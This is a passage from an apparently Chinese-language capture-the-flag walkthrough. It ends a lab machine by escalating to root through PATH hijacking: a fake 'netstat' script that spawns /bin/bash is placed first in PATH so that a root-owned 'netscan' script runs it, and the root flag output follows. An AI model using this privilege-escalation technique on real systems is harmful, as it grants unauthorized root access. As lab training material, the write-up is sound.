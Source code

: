 因此我们可以通过PATH环境变量进行提权，具体操作可以查看[这篇文章](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)。在该实例中进行以下操作步骤：

1. 进入*/tmp*目录下，方便创建文件
2. 创建一个shell脚本文件，文件名为*netstat*，执行命令：`echo "/bin/bash" > netstat`
3. 将*/tmp*目录添加到`$PATH`环境变量下，这样该目录下的脚本文件就可以在随意位置下执行，执行命令：`export PATH=/tmp:$PATH`
4. 执行*/usr/bin/netscan*脚本后就会切换到*root*账户

得到最后一个flag：

```shell
root@nitin:/root# cat root.txt
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/
                     /_____/
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me
```

### 总结

提权过程执行成功的主要原因是*/usr/bin/netscan*脚本文件所属用户是*root*，并且改脚本执行过程中需要使用系统中的*netstat*工具，又因为我们在*/tmp*目录下新建了一个相同的*netstat*脚本文件，并且已经添加到系统变量里，因此在使用*netstat*工具时就会使用我们新建的*netstat*脚本，从而返回了一个shell。在此之前需要注意的是将*/tmp*目录添加在环境变量最前面。

### Ref.

- [smb枚举](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)